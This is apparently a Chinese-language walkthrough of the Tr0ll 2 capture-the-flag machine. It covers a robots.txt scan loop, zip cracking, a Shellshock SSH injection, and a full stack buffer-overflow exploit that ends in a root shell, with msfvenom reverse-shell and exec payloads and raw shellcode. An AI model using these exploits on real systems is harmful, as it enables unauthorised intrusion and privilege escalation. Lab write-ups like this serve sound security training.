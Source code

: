 ## 信息收集

```````
sudo arp-scan -l 扫描开放的新主机
```````

[利用自己编写的简易脚本(只是简化了操作步骤)扫描目标靶机](https://github.com/defu0117/CODE/blob/main/shell/scan_simple.sh)

```
输出到的ports开放端口21,22,80
detail 输出了80web端存在robots.txt
ftp 没有显示能匿名登录
```



## FTP渗透

- 首先还是尝试了一下能不能匿名登录，发现不能
- 这时候思路转到web，访问页面是一个图片，dump下来也没有发现有用信息
- 页面源码显示作者是:Tr0ll,看看能不能弱密码登录ftp，尝试成功，下载lmao.zip



### WEB渗透

- robots.txt显示内容:

  ```
  User-agent:*
  Disallow:
  /noob
  /nope
  /try_harder
  /keep_trying
  /isnt_this_annoying
  /nothing_here
  /404
  /LOL_at_the_last_one
  /trolling_is_fun
  /zomg_is_this_it
  /you_found_me
  /I_know_this_sucks
  /You_could_give_up
  /dont_bother
  /will_it_ever_end
  /I_hope_you_scripted_this
  /ok_this_is_it
  /stop_whining
  /why_are_you_still_looking
  /just_quit
  /seriously_stop
  ```

  提示我们也是要不要写个脚本访问，咱毕竟也是个懒人，不可能挨个访问的

  **script:**

  ```bash
  #!/bin/bash
  
  while read line
  do
          ur="http://192.168.1.93${line}"
          echo `curl -L -s ${ur}` && echo "${line}" 
  done < url
  ```

  

  ```shell
  bash sh | grep -v "404" 输出了四个文件有显示，但都是图片，我开始没有挨个看，血亏啊，转了半天发现没有思路，结果发现在/dont_bother/下的图片源码显示了新的路径
  
  Look Deep within y0ur_self for the answer
  /y0ur_self/answer.txt 下是base64 encode的密码本
  base64 -d answer.txt > passwd
  
  使用fcracekzip 破解zip文件
  fcrackzip -D -p passwd -u lmao.zip
  -D 使用暴力破解模式
  -p指定密码路径
  -u指定文件路径
  
  PASSWORD FOUND!!!!: pw == ItCantReallyBeThisEasyRightLOL
  
  ```



## 提权

- zip解压得到一个私钥文件

- 将权限改为600,但是不知道用户名称是什么，我尝试直接使用加压出来的文件名，因为在之前也出现过noob

- ```shell
  ssh -i noob@192.168.1.93
  
  TRY HARDER LOL!
  Connection to 192.168.1.93 closed.
  
  这里我不知道怎么做了，没有思路，于是看了大佬的wp发现是shellshock
  
  ssh -i noob@192.168.1.93 -i noob -t '() { :;}; /bin/bash'
  -t  远程登录后执行的内容
  这里好像是有个源文件会将检查到的(){ 认为是函数，倘若该环境变量字符串包含多个用分号；隔开的shell命令，parse_and_execute函数会执行每一条命令，具体我也不太清楚
  ```

  - 登录到系统发现系统其他用户，除了noob还有一个，home下目录有可读权限但是没什么信息

  - `find / -perm -u=s -type f 2>/dev/null | grep -v "proc"`

    /nothing_to_see_here/choose_wisely/door2/r00t
    /nothing_to_see_here/choose_wisely/door3/r00t
    /nothing_to_see_here/choose_wisely/door1/r00t

  - 发现有可读可执行权限，三个文件会互相改换位置，一个可以输入靶机名称，一个重启，一个说开启两分钟困难模式，不能使用ls了



### 缓冲区溢出提权

- 在可输入的可执行文件查看源码，首先strings我们没有权限使用了
- 我们使用od -S 1 r001     | -S 1 查看可打印字符
- 发现展示了之前在.bash_history出现过的bof.c还有strcpy

​	` char *strcpy(char *dest, const char *src) 把src所指向的字符串复制到dest，如果dest不够大容易造成缓冲区溢出漏洞`

系统还有gdb和windows的Immunity Debugger一样可以调试文件

```
r(run) 运行知道中断了后面跟一个参数

1.模糊测试看多少发生溢出:
r $(python -c 'print "A"*500')   最后发现在200没有溢出，300溢出了

2.具体测试出在多少位溢出
用msf的生成出300位测试码
msf-pattern_create -l 300

r $(python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9"')

:Program received signal SIGSEGV, Segmentation fault.
0x6a413969 in ?? ()

msf-pattern_offset -l 300 -q 0x6a413969
[*] Exact match at offset 268


3.那么第269位就是溢出的，我们看看后面的内容在哪个地方
r $(python -c 'print "A"*268 + "B"*4 + "C"*8')
Starting program: /nothing_to_see_here/choose_wisely/door2/r00t $(python -c 'print "A"*268 + "B"*4 + "C"*8')

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) i r
eax            0x118    280
ecx            0x0      0
edx            0x0      0
ebx            0xb7fd1ff4       -1208147980
esp            0xbffffb60       0xbffffb60
ebp            0x41414141       0x41414141
esi            0x0      0
edi            0x0      0
eip            0x42424242       0x42424242
eflags         0x210282 [ SF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51

0xbffffb60 的内容就是CCCC可以使用查看内容
x/100xb 0xbffffb60
0xbffffb60:     0x43    0x43    0x43    0x43    0x43    0x43    0x43    0x43


4.查看坏字符，用github的开源程序生成一个码./badchars ，/x01~/xff
输入，如果x/100xb 0xbffffb60后面的内容挨个对不上就在此位置出现坏字符，剔除然后重新运行     最后得到的坏字符位/x09,/x0a,/x20以及/x00

5.生成payload
msvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.1.93 LPORT=4444 -b '\x00\x0a\x0d' -f py 但是没有运行成功 最开始还使用了-e x86/shikata_ga_nai

msfvenom --platform linux -p linux/x86/exec -f py CMD="/bin/sh" -b '\x00\x0a\x0d' -a x86

最后输入:
./r00t $(python -c "print 'A' * 268 + '\x80\xfb\xff\xbf' + '\x90' * 100 + '\xd9\xee\xd9\x74\x24\xf4\x5f\xba\x2e\x56\xb2\x8d\x33\xc9\xb1\x0b\x31\x57\x1a\x03\x57\x1a\x83\xc7\x04\xe2\xdb\x3c\xb9\xd5\xba\x93\xdb\x8d\x91\x70\xad\xa9\x81\x59\xde\x5d\x51\xce\x0f\xfc\x38\x60\xd9\xe3\xe8\x94\xd1\xe3\x0c\x65\xcd\x81\x65\x0b\x3e\x35\x1d\xd3\x17\xea\x54\x32\x5a\x8c'")
提权成功

/x90 *100 是nop sled 位,nop滑动，给出更大的空间去提高容错率，因为有的shellcode会先生成一段加载的代码，防止覆盖
```




